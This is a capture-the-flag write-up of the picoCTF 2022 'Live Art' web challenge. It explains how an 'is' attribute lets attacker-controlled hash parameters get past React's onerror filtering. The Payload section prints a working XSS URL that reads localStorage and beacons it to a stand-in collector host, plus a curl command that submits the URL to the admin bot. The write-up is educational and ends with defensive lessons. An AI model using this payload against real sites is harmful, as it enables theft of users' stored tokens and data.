

<h1 align="center">🎨 Live Art</h1>
<p align="center">
  <b>picoCTF 2022 Web Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  Turning a Harmless Prop Spread into XSS with One Custom-Element Attribute
</p>

---

# 📋 Environment

| Item       | Value                                                              |
| ---------- | ----------------------------------------------------------------- |
| Event      | picoCTF 2022 (run on CyLab Security Academy)                       |
| Category   | Web Exploitation                                                 |
| Difficulty | Hard                                                             |
| Author     | zwad3                                                            |
| Handout    | `bundle.tar.gz` (React client, Express + Puppeteer server)       |
| Task       | Steal the admin's `localStorage` value through a client-side bug  |
| Tools Used | source review, a browser, a request collector (webhook.site)     |

---

# 🗺️ Overview

> Live Art is a React single page app for sharing pixel drawings, with a headless admin bot that will visit any link we submit. The server stashes the flag in the admin's browser under `localStorage["username"]` on the origin `http://localhost:4000`, so the whole challenge is a client-side one: get JavaScript to run on that origin in the bot's browser, read `localStorage`, and send it out. React normally neutralizes cross-site scripting by escaping values and refusing string event handlers, so the bug has to be somewhere React's guard rails do not apply. It is in the `Viewer` component, which spreads URL hash parameters directly onto an `` element. On its own that spread cannot inject an event handler, because React drops attributes that look like `onerror`. The unlock is the HTML custom elements feature: when any element carries an `is` attribute, React treats it as a custom component and passes every remaining attribute straight through to the DOM, `onerror` included. Add `is`, point `src` at something that fails to load, and the browser runs our `onerror` as inline JavaScript on the target origin.

Steps:
* Read the server: the flag lives in the admin's `localStorage["username"]` at `http://localhost:4000`, and `/fan-mail` makes the bot visit our URL
* Find the sink: `Viewer` renders ``, where `params` are the URL hash key/values
* Confirm that a plain `onerror` hash parameter is dropped by React
* Add an `is` parameter so React treats the `` as a custom element and emits `onerror` verbatim
* Submit `http://localhost:4000/drawing/x#is=1&src=y&onerror=<js>` so the bot runs our script and beacons the flag out

---

# 📑 Table of Contents

1. [The Service and the Goal](#the-service-and-the-goal)
2. [The Sink: a Spread onto an img](#the-sink-a-spread-onto-an-img)
3. [Why a Plain onerror Fails in React](#why-a-plain-onerror-fails-in-react)
4. [The Custom Element Bypass](#the-custom-element-bypass)
5. [The Payload](#the-payload)
6. [Flag](#-flag)
7. [Solution Summary](#solution-summary)
8. [Lessons and Takeaways](#lessons-and-takeaways)

---

# The Service and the Goal

The backend is small. `POST /fan-mail` takes a URL, checks only that it is `http` or `https`, and queues it. A Puppeteer worker then drives the queue:

```ts
const ORIGIN = "http://localhost:4000";
await page.goto(ORIGIN);
await page.evaluate(([bongoCat, flag]) => {
    localStorage.setItem("image", bongoCat);
    localStorage.setItem("username", JSON.stringify(flag));   // the flag
}, [bongoCat, flag]);
await page.close();

const secondPage = await browser.newPage();
await Promise.race([ secondPage.goto(url), sleep(3000) ]);    // visits OUR url
await sleep(3000);
```

So the bot writes the flag into `localStorage["username"]` on `http://localhost:4000`, then opens our submitted URL in the same browser. Because `localStorage` is shared across pages of the same origin, any script we can run on `http://localhost:4000` can read that value. The submitted URL therefore has to point at `http://localhost:4000` itself, which is exactly what the site's own reminder insists on.

The front end is React 17, and there is no Content Security Policy anywhere, so an inline event handler will execute if we can get one into the DOM.

> **In plain terms:** the robot visitor quietly stores the flag in its own browser under `localhost:4000`, then clicks whatever link we give it. If our link makes code run on that same `localhost:4000` page, that code can read the flag and mail it to us.

---

# The Sink: a Spread onto an img

Hunting for places where our input reaches the DOM, the `Viewer` component stands out. It reads the URL hash into an object and spreads that object straight onto an ``:

```tsx
// hooks: hash "#a=1&b=2" -> { a: "1", b: "2" }
const getHashParams = () => {
    const params = new URLSearchParams(window.location.hash.substring(1));
    const result = Object.create(null);
    params.forEach((value, key) => { result[key] = value; });
    return result;
};

// viewer
const params = useHashParams();
return (
    <div>
        <h1>Viewing</h1>
        
    </div>
);
```

`Viewer` is reached through the `Drawing` route at `/drawing/:page`, which renders it whenever the window is wider than 600 pixels. The headless browser's default viewport is 800 by 600, so the viewer renders on a normal visit with no tricks needed. Whatever key/value pairs we put in the URL hash become props on that ``. That is a direct attribute-injection primitive: we control the element's attributes.

> **In plain terms:** the viewer takes the settings from the end of the URL and stamps them straight onto an image tag as attributes. We decide what those attributes are, which is most of the way to an attack.

---

# Why a Plain onerror Fails in React

The obvious move is an image with a broken source and an `onerror` handler:

```text
/drawing/x#src=y&onerror=alert(1)
```

React refuses it. React 17 recognizes event handlers only in camelCase (`onError`) and requires them to be functions, not strings. A lowercase `onerror` passed as a string is treated as a stray attribute, and React has a specific rule that silently drops attributes whose name starts with `on` for ordinary HTML elements. The handler never reaches the DOM, so nothing fires. This is exactly the protection that normally makes React apps resistant to this class of bug.

> **In plain terms:** React knows the `onerror` trick and throws our handler away before it ever hits the page, because to React it looks like a misspelled event prop on a normal image.

---

# The Custom Element Bypass

The escape hatch is how React decides whether an element is a standard HTML element or a custom element. In the React 17 source:

```js
function isCustomComponent(tagName, props) {
    if (tagName.indexOf('-') === -1) {
        return typeof props.is === 'string';
    }
    ...
}
```

An `` has no hyphen in its tag name, but the moment one of its props is named `is` and holds a string, `isCustomComponent` returns true. React then treats the element as a customized built-in and takes a far more permissive attribute path: the rule that drops `on*` attributes is skipped, and every remaining prop is written to the DOM with a raw `setAttribute`.

Adding `is` to our hash is enough to flip that switch. The difference is easy to see by rendering the same `` both ways:

```text
with is   : 
without is: 
```

With `is` present, the `onerror` attribute is emitted verbatim. The browser then compiles that content attribute into a real inline event handler, and since there is no CSP, it runs when the image fails to load. Our `src=y` resolves to a route that returns the app's HTML rather than an image, so the decode fails, `onerror` fires, and we have code execution on `http://localhost:4000`.

> **In plain terms:** React only clamps down on standard elements. Slip in the `is` attribute and React thinks the image is a custom element, so it stops filtering and copies our `onerror` straight onto the tag. A failed image load then runs it.

---

# The Payload

The handler reads the flag from `localStorage` and sends it to a collector as an image request, which only needs an outbound GET (the bot allows ports 80 and 443, so an HTTPS collector works):

```js
new Image().src = 'https://COLLECTOR/' + encodeURIComponent(localStorage.username)
```

Wrapped into the hash, with `is` to trip the custom-element path and `src` to force the error, the full URL we submit is:

```text
http://localhost:4000/drawing/x#is=1&src=y&onerror=new%20Image%28%29.src%3D%27https%3A%2F%2FCOLLECTOR%2F%27%2BencodeURIComponent%28localStorage.username%29
```

Submit it through the site's "Send me fan mail" form, or straight to the queue:

```sh
curl -s http://<host>/fan-mail -H 'Content-Type: application/json' \
  -d '{"url":"http://localhost:4000/drawing/x#is=1&src=y&onerror=new%20Image%28%29.src%3D%27https%3A%2F%2FCOLLECTOR%2F%27%2BencodeURIComponent%28localStorage.username%29"}'
```

A few seconds later the collector logs a request whose path is the flag. The value is stored as `JSON.stringify(flag)`, so it arrives URL-encoded and wrapped in quotes:

```text
GET /%22academy%7Bbeam_me_up_reacty_9a1c5ed9%7D%22
```

URL-decode it and drop the surrounding quotes to get the flag.

> **In plain terms:** the link we hand the bot makes its own browser read the flag out of storage and fetch an image from our server with the flag in the address. We just read the flag off our server's request log.

---

# 🚩 Flag

```text
academy{beam_me_up_reacty_9a1c5ed9}
```

---

# Solution Summary



---

# Lessons and Takeaways

* **Spreading untrusted data onto an element is the whole bug.** `{...params}` puts attacker-chosen hash keys directly onto an ``. Any time user input flows into a prop spread on a host element, it is one surprising attribute away from script execution.
* **React's XSS protection is element-type specific, not absolute.** For standard elements React drops `on*` string attributes, which is why a naive `onerror` fails. That guarantee quietly disappears the instant the element is considered a custom element.
* **The `is` attribute is a React XSS switch.** Because `isCustomComponent` returns true when `props.is` is a string, adding `is` to a normal tag makes React pass every attribute through with a raw `setAttribute`, including the `onerror` it would otherwise refuse. One extra key in the hash is the entire bypass.
* **No CSP means an inline handler is live code.** With a content security policy, an injected `onerror` attribute would not execute. Its absence here turns the attribute injection into full script execution, which is a reminder that a strong CSP is the backstop for exactly this mistake.
* **Same-origin storage plus an open redirect of a bot equals exfiltration.** The flag was readable only because the payload ran on the same origin that held it, and it left the browser only because the handler could make an outbound request. Keeping secrets out of `localStorage` and constraining a visitor bot's network both cut this off.

---

Written by **TheDingo8MyBaby**
picoCTF 2022 • Live Art • flag: academy{beam_me_up_reacty_9a1c5ed9}
